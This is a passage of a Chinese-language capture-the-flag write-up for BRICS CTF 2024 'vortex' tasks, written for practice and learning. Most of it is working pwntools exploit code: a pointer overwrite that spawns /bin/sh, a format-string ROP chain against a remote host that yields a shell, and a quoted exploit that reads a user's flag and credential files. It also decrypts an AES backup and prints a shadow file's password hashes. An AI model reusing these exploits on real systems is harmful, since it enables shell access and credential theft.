    io.sendlineafter(b'> ', b'LOGOUT')

    return


def exit(io: pwn.tube) -> None:
    io.sendlineafter(b'> ', b'EXIT')

    return


def main() -> None:
    IP = sys.argv[1] if len(sys.argv) > 1 else 'localhost'
    PORT = int(sys.argv[2]) if len(sys.argv) > 2 else 17172

    io = pwn.remote(IP, PORT)

    # 0000000000402680 T syscall.RawSyscall6

    for i in range(28):
        register(io, f'x_{i}'.encode(), b'x', b'full')
        logout(io)

    register(io, b'x', b'x', b'full')
    update(io, pwn.p64(0x0000000000402680) + pwn.p64(0))
    logout(io)
    login(io, b'x', b'x')
    logout(io)

    # pwn.pause()

    payload = b'/bin/sh\x00'
    payload += b'A' * (0x400008 - len(payload))

    register(io, payload, b'y', b'full')

    io.interactive()


if __name__ == '__main__':
    main()
```

‍

‍

## HTB-vortex-user

‍

可以设置 env 和查看env, 设置 env 时会记录日志，然后查看日志存在 格式化字符串漏洞

‍

很幸运远程的ubuntu libc 和我本地的是一样的， 我是通过 格式化字符串漏洞 get shell 

```python
from pwn import *
import sys

# Define lambda functions for common operations
s       = lambda data               :io.send(data)
sa      = lambda delim,data         :io.sendafter(delim, data)
sl      = lambda data               :io.sendline(data)
sla     = lambda delim,data         :io.sendlineafter(delim, data)
r       = lambda num                :io.recv(num)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
ls      = lambda data               :log.success(data)
lss     = lambda s                  :ls('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))
itr     = lambda                    :io.interactive()
# Context settings
context.arch      = 'amd64'
context.log_level = 'debug' # info
context.terminal  = ['tmux','splitw','-h','-l','170']
def start(binary,argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if   args.GDB: return gdb.debug([binary] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.CMD: return process(binary.split(' '))
    elif args.REM: return remote('89.169.156.185', 12850)
    elif args.AWD: return remote(sys.argv[1], int(sys.argv[2]))
    '''     Usage: python3 exp.py AWD <IP> <PORT>   '''
    return process([binary] + argv, *a, **kw)

binary = './cli'
libelf = ''

elf  = ELF(binary);rop = ROP(binary)
libc = elf.libc
gdbscript = '''
brva 0x000001D4A
#continue
'''.format(**locals())


#import socks
#context.proxy = (socks.SOCKS5, '192.168.80.102', 10808)

io = start(binary)
def l():
    ru('# ')
    sl('ls')
def env(cmd,n_env='',value=''):
    ru('# ')
    sl('env')
    ru(': ')
    sl(cmd)
    if cmd == 'set':
        ru(': ')
        sl(n_env)
        ru('value: ')
        sl(value)
    else:
        ru(': ')
        sl(n_env)
def set_env(n_env,value):
    env('set',n_env,value)
def get_env(n_env,value):
    env('get',n_env,value)
def logs(pay1='',pay2=''):
    ru('# ')
    if pay1 == '':
        sl('logs')
    else:
        s(pay1)
    ru(': ')
    if pay2 == '':
        sl('view')
    else:
        s(pay2)

set_env('env1',f'->%{6+0xb}$p->%{6 + 0x17}$p')
logs()
ru('->')
stack = int(ru('->'),16) - 0x18
libc_base = int(rl(),16) - 172490
lss('libc_base')
lss('stack')

libc.address = libc_base
system = libc.sym['system']
bin_sh = next(libc.search(b'/bin/sh'))
poprdi = next(libc.search(asm('pop rdi;ret')))
ret = poprdi + 1

rop = p64(poprdi+1) + p64(poprdi) + p64(bin_sh) + p64(system)
rop = rop[:-2]


for i in range(0,len(rop)):
    n = (stack + i) & 0xFF
    if n != 0:
        pay = f'%{0x100 - 24 + n}c%{6 + 0xb}$hhn' 
    else:
        pay = f'%{0x100 - 24}c%{6 + 0xb}$hhn'
    set_env('env1',pay)
    n = rop[i]
    if n != 0:
        pay = f'%{0x100 - 24 + n}c%{6 + 0x13}$hhn'
    else:
        pay = f'%{0x100 - 24}c%{6 + 0x13}$hhn'
    set_env('env1',pay)


#gdb.attach(io,gdbscript)

pay1 = b'logs'.ljust(0x8,b'\x00') + p64(stack)
pay2 = b'view'.ljust(0x8,b'\x00') + p64(stack + 0x20)
logs(pay1,pay2)


lss('libc_base')
lss('stack')

itr()

```

‍

```bash
https://github.com/C4T-BuT-S4D/bricsctf-2024-quals/blob/master/tasks/htb/vortex-user/src/user/main.c
```

‍

* 别人的 wp，学习一下哈哈

```python
#!/usr/bin/env python3
import pwn
pwn.context.terminal = ['tmux', 'splitw', '-h']

def set_env(io: pwn.tube, name: bytes, value: bytes) -> None:
    io.sendlineafter(b"# ", b"env")
    io.sendlineafter(b": ", b"set")
    io.sendlineafter(b": ", name)
    io.sendlineafter(b": ", value)

def view_logs(io: pwn.tube, bebra: bytes = b'') -> None:
    io.sendlineafter(b"# ", b"logs")
    io.sendlineafter(b": ", b"view\x00\x00\x00\x00" + bebra)

def solve(io: pwn.tube, off: int) -> None:
    gdbscript = '''
vmmap
'''
    # pwn.gdb.attach(io, gdbscript = gdbscript)

    # get xetrov home listing and view db.conf file
    # io.sendlineafter(b"# ", b"env")
    # io.sendlineafter(b": ", b"set")
    # io.sendlineafter(b": ", b"PWD")
    # io.sendlineafter(b": ", b"/home/xetrov")
    # io.sendlineafter(b"# ", b"ls")

    set_env(io, b'leak', b'%8$llx')
    view_logs(io)

    while True:
        line = io.recvline()

        if b'leak=' not in line:
            continue

        leak = line.strip().split(b'leak=')[1]
        heap_base = int(leak, 16) - off
        print(f'heap_base @ 0x{heap_base:x}')
        break

    target = heap_base + 0x2a20

    set_env(io, b'content', b'%17$s')

    # to steal creds
    #set_env(io, b'DATEMSK', b'/home/xetrov/db.conf')
    # to steal flag
    set_env(io, b'DATEMSK', b'/home/xetrov/user.txt')
    view_logs(io, pwn.p64(target))
    io.recvuntil(b"new env content=")
    print(io.recvuntil(b"#").decode())

def main() -> None:
    #io = pwn.process('./cli')
    for i in range(0, 0x100000, 0x10):
        io = pwn.remote('0.0.0.0', 19191)

        try:
            solve(io, i)
        finally:
            io.close()

if __name__ == '__main__':
    main()
```

‍

## HTB-vortex-system

这道题目逆向分析也是挺有意思的，

* AES
* 通过上面的 user 进去后 可以拿到 user.txt 和 db.conf(ssh 密码 用于 vortex system)

* 进去后 可以再 opt 目录下找打 待逆向的程序

‍

* 逆向分析

​​

‍

* 时间戳生成部分和使用部分，怎么通过时间戳生成真正的AES 的过程看不懂，但是可以通过动态调试，去修改 time_c 的值 然后让自加密

​​

​​

‍

‍

* 主要加密逻辑

​​

‍

‍

​​

​​

‍

* exploit

```python
from pwn import *
from Crypto.Cipher import AES

# backup_1728210186.zip

# key 是通过时间戳 然后加密的， （文件名已经给了时间戳）key 可以动调出来
key = p64(0x97c54b3a53cf9250) + p64(0x9eabdf1f04adaa12)


data = open('backup_1728210186.zip','rb').read()
rnum = 'ED DA 8A 22 83 D8 FA 0D 45 84 58 1C 8B F3 46 F9'.replace(' ','')
rnum = bytes.fromhex(rnum)
rnum = data[-0x10:]
print(key)
print(rnum)


#aes = AES.new(key,AES.MODE_ECB) # ECB

aes = AES.new(key,AES.MODE_ECB)

zip = b''
rnum = list(rnum)
for i in range(0,len(data[:-0x10]),0x10):
    x = data[i:i+0x10]
    p1 = aes.decrypt(x)
    n = b''
    print(p1)
    for i in range(len(rnum)):
        n += p8(rnum[i] ^ p1[i])
        rnum[i] = x[i]
    zip += n

print(zip)

open('flag.zip','wb').write(zip)
```

‍

‍

​​

‍

* 后面密码没爆破出来，😅😅😅😅😅😅, 爆出密码应该就可以直接ssh 连进去查看flag了

```python
root:$y$j9T$r/k4QwtXjjRDxxAaOaR190$cDHEIP9kaNIVoVtcv9vNwHqzrz0sAWeGzECWGDCSRb4:20001:0:99999:7:::
daemon:*:19970:0:99999:7:::
bin:*:19970:0:99999:7:::
sys:*:19970:0:99999:7:::
sync:*:19970:0:99999:7:::
games:*:19970:0:99999:7:::
man:*:19970:0:99999:7:::
lp:*:19970:0:99999:7:::
mail:*:19970:0:99999:7:::
news:*:19970:0:99999:7:::
uucp:*:19970:0:99999:7:::
proxy:*:19970:0:99999:7:::
www-data:*:19970:0:99999:7:::
backup:*:19970:0:99999:7:::
list:*:19970:0:99999:7:::
irc:*:19970:0:99999:7:::
_apt:*:19970:0:99999:7:::
nobody:*:19970:0:99999:7:::
ubuntu:!:19970:0:99999:7:::
systemd-network:!*:20001::::::
systemd-timesync:!*:20001::::::
messagebus:!:20001::::::
systemd-resolve:!*:20001::::::
sshd:!:20001::::::
xetrov:$y$j9T$XzjV7y9k5IDHF.3I78smb0$Q6xsk6ItHff./c6BuwxTfb.v7dCgjDbjxizUz7/mHv0:20001:0:99999:7:::

```

‍

* 源代码 AES C

```c
https://github.com/C4T-BuT-S4D/bricsctf-2024-quals/blob/master/tasks/htb/vortex-system/src/system/aes.hpp
```

‍

‍

## END

	

```bash
https://github.com/C4T-BuT-S4D/bricsctf-2024-quals
```
